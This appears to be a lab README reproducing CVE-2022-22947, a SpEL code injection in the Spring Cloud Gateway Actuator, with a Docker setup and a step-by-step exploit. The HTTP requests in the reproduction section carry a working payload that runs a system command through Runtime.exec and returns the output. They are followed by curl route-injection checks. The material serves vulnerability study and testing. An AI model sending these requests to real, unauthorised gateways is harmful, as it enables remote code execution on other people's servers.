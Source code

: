 # Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

[中文版本(Chinese version)](README.zh-cn.md)

## Affected / Fixed / Preconditions
- **Affected**: 3.1.0, 3.0.0–3.0.6
- **Fixed**: 3.1.1, 3.0.7
- **Preconditions**
  - The project includes `spring-boot-starter-actuator`
  - `management.endpoint.gateway.enabled: true`
  - `management.endpoints.web.exposure.include` includes `gateway` (or `*`)
  - `/actuator/gateway/**` is exposed to the network and accessible without authentication or filtering.
  - (Optional) If the management port is separated, access the actuator via `management.server.port`.

Spring Cloud Gateway provides a library for building an API Gateway on top of Spring WebFlux.

Applications using Spring Cloud Gateway versions 3.1.0 and 3.0.0–3.0.6 are vulnerable when the Gateway Actuator endpoint is enabled, exposed, and unsecured. The issue is fixed in 3.1.1 and 3.0.7. A remote attacker can craft a malicious request to achieve arbitrary code execution on the host.

## Minimal configuration (for PoC)
```yaml
server:
  port: 8080

management:
  server:
    port: 8080        # Use a separate port (e.g., 9090) when separating the management port
  endpoints:
    web:
      exposure:
        include: gateway
  endpoint:
    gateway:
      enabled: true

```

## Vulnerability Environment

```bash
mvn -q -DskipTests package
cp target/*.jar target/app.jar
docker compose up -d

```

After server is started, browse the `http://your-ip:8080` to see an example page.

## Vulnerability Reproduction

Firstly, send the following request to add a route which contains an evil SpEL expression:

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![Add route request](1.png)

Secondly, refresh the gateway. The SpEL expression will be executed in this step:

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![Refresh trigger](2.png)

Thirdly, send the following request to retrieve the result:

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![Retrieve route result](3.png)

Afterward, send a DELETE request to remove our evil route:

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![Delete route](4.png)

Finally, refresh the gateway again:

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

### Quick verification (Windows / Git Bash)

```bash
# Register route and verify header
cat > payload.json <<'EOF'
{
  "id": "hack",
  "order": -1,
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [
    { "name": "SetPath", "args": { "template": "/headers" } },
    { "name": "AddResponseHeader", "args": { "name": "X-Check", "value": "hello" } }
  ],
  "uri": "https://httpbin.org"
}
EOF

curl -s -X POST http://127.0.0.1:8080/actuator/gateway/routes/hack \
  -H "Content-Type: application/json" --data @payload.json
curl -s -X POST http://127.0.0.1:8080/actuator/gateway/refresh
curl -s -D - -o /dev/null http://127.0.0.1:8080/poc   # should show 'X-Check: hello'


```

![Screenshot of successful header injection](images/CVE-2022-22947Poc.png)


### Cleanup (for Quick verification)

```bash
curl -s -X DELETE http://127.0.0.1:8080/actuator/gateway/routes/hack
curl -s -X POST   http://127.0.0.1:8080/actuator/gateway/refresh

```

### References

- [Spring Advisory: CVE-2022-22947](https://spring.io/security/cve-2022-22947)
- [NVD: CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947)
- [VMware Tanzu Advisory](https://tanzu.vmware.com/security/cve-2022-22947)
- [Blog: SpEL casting and evil beans](https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/)